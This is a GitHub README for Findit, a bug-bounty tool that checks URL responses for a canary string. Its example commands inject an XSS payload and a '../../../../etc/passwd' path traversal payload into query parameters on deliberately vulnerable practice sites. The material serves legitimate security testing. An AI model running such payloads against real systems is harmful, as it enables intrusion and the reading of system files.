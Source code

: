 # Findit

Findit is a tool used to parse a canary value from a web request.  
This is useful in bugbounties when you want to find a return value from a list of URL's.  
Think xss, ssti, sqli etc. 


## Install 

```
go install github.com/AssassinUKG/findit@latest
```

## Usage

```
cat URLFile.txt | findit -c "alert(0)"
```

## Screenshot

![image](https://user-images.githubusercontent.com/5285547/178971597-a6cf6545-dc6b-45e9-b64a-104e902ca1e2.png)


## Example usages

XSS 

```
echo http://testphp.vulnweb.com/ | waybackurls | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|tff|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '"><img src=x onerror=alert(1);>' | findit -c "alert(0)"
```

/etc/passwd
> Example to find /etc/passwd, one one url 

```
echo "https://0aa9003403a40852c028b1270079009b.web-security-academy.net/image?filename=" | qsreplace "../../../../etc/passwd" | findit -c "root:x"
```

![image](https://user-images.githubusercontent.com/5285547/178974785-cbbab50c-bd6e-4a4e-ae7d-822ba3ca46f6.png)

